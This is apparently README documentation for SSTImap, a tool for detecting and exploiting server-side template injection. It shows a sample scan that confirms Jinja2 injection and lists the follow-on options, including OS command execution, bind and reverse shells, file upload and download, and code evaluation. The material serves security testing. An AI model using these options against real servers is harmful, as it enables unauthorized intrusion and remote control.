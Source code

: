 SSTImap in predetermined mode is very similar to Tplmap. It is capable of detecting and exploiting SSTI vulnerabilities in multiple different templates.

After the exploitation, SSTImap can provide access to code evaluation, OS command execution and file system manipulations.

To check the URL, you can use `-u` argument:

```
$ ./sstimap.py -u https://example.com/page?name=John

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║ _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.3.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program


[*] Testing if GET parameter 'name' is injectable   
[*] Smarty plugin is testing rendering with tag '*'
...
[*] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] SSTImap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Rerun SSTImap providing one of the following options:
    --os-shell                   Prompt for an interactive operating system shell
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port
    --reverse-shell HOST PORT    Send a shell back to the attacker's port
    --upload LOCAL REMOTE        Upload files to the server
    --download REMOTE LOCAL      Download remote files
```


[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[5]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[6]: http://flask.pocoo.org/
[7]: http://jinja.pocoo.org/